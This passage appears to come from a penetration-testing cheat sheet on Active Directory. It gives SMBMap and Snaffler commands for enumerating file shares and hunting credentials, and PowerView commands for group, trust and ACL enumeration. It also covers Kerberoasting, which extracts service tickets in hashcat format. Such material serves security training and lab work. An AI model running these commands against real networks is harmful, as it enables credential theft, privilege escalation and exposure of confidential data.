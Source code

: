 ```shell title="File Share with SMBMap"
# SMBMap: Getting all the shares
smbmap -u '<USERNAME>' -p '<PASSWORD>' -d '<DOMAIN>' -H '<IP>'

# SMBMAP: Getting all the folders inside the share
smbmap -u '<USERNAME>' -p '<PASSWORD>' -d '<DOMAIN>' -H '<IP>' -R '<SHARENAME>' --dir-only
```

We should always try to skim through all the files which we have access to as that will allow us to potentially find credentials which can elevate our privileges. It could also potentially contain confidential information's such as their finances, employees visas, and much more...

### Snaffler

[Snaffler](https://github.com/SnaffCon/Snaffler.git) is a fantastic tool to be familiar with as it will automatically enumerate through all the computers from Active Directory and figure out which one has file shares and then start reading all the files which it has read access on.

```powershell title="Snaffler"
# Snaffler: Inspecting misconfigured permissions from fileshares
.\Snaffler.exe -d "<DOMAIN>" -s -v data -o "snaffler.log"
```

I highly recommend becoming familiar with [Snaffler](https://github.com/SnaffCon/Snaffler.git) as the capabilities it comes with is extremely useful in large environment which has multiple of servers running SMB services that is why I choose to give the tool itself it's own section.

### PowerView

[PowerView](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1) is a extremely powerful PowerShell script that comes with many capabilities such as querying data from domain controller, managing users, managing groups, and Kerberoasting users. It's nearly impossible to cover everything that is possible with Powerview but I'll try to cover as much as possible.

```shell title="Powerview"
# PowerView: Importing Module
Import-Module .\PowerView.ps1

# PowerView: Viewing resursive group memberships
Get-DomainGroupMember -Identity "Domain Admins" -Recurse

# PowerView: Viewing Domain Trust Relationships
Get-DomainTrustMapping

# PowerView: Testing for Local Admin Access
Test-AdminAccess -ComputerName "<COMPUTER-NAME>"

# PowerView: Getting all SPN accounts
Get-DomainUser * -SPN | Select SamAccountName

# PowerView: Getting a TGS Ticket in hashcat format
Get-DomainUser -Identity '<USERNAME>' |  Get-DomainSPNTicket -Format Hashcat

# PowerView: Exporting TGS Ticket
Get-DomainUser -Identity '<USERNAME>' | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\TGSTicket.csv -NoTypeInformation

# PowerShell: Creating a PSCredential object
$SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\<USERNAME>', $SecPassword)

# PowerView: Getting all ACLs from Active Directory
Find-InterestingDomainACL

# ActiveDirectory: Finding all ACLs
```